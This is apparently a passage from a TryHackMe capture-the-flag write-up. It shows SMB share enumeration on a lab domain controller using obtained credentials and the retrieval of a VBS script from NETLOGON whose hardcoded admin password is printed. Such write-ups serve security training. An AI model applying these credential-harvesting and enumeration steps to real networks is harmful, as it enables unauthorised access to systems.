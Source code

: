 ```

Now we have credentials let try it on SMB.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/vulnetroasted]
└─$ smbclient -L //10.10.108.117/ -U t-skid
Enter WORKGROUP\t-skid's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing
SMB1 disabled -- no workgroup available
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/vulnetroasted]
└─$ smbclient  //10.10.108.117/NETLOGON -U t-skid
Enter WORKGROUP\t-skid's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 17 00:15:49 2021
  ..                                  D        0  Wed Mar 17 00:15:49 2021
  ResetPassword.vbs                   A     2821  Wed Mar 17 00:18:14 2021

                8771839 blocks of size 4096. 4553504 blocks available
smb: \> 
```

Downloaded to my attacking machine let `strings` the vbs file.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/vulnetroasted]
└─$ strings ResetPassword.vbs                                       
Option Explicit                                                                    
Dim objRootDSE, strDNSDomain, objTrans, strNetBIOSDomain             
Dim strUserDN, objUser, strPassword, strUserNTName
' Constants for the NameTranslate object.     
Const ADS_NAME_INITTYPE_GC = 3
Const ADS_NAME_TYPE_NT4 = 3
Const ADS_NAME_TYPE_1779 = 1                                                       
If (Wscript.Arguments.Count <> 0) Then                                             
    Wscript.Echo "Syntax Error. Correct syntax is:"
    Wscript.Echo "cscript ResetPassword.vbs"
    Wscript.Quit
End If                         
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
' Determine DNS domain name from RootDSE object.                  
Set objRootDSE = GetObject("LDAP://RootDSE")                          
strDNSDomain = objRootDSE.Get("defaultNamingContext")           
' Use the NameTranslate object to find the NetBIOS domain name from the
' DNS domain name.
Set objTrans = CreateObject("NameTranslate")
objTrans.Init ADS_NAME_INITTYPE_GC, ""
objTrans.Set ADS_NAME_TYPE_1779, strDNSDomain
strNetBIOSDomain = objTrans.Get(ADS_NAME_TYPE_NT4)
' Remove trailing backslash.
strNetBIOSDomain = Left(strNetBIOSDomain, Len(strNetBIOSDomain) - 1)
' Use the NameTranslate object to convert the NT user name to the
' Distinguished Name required for the LDAP provider.      
On Error Resume Next                                                               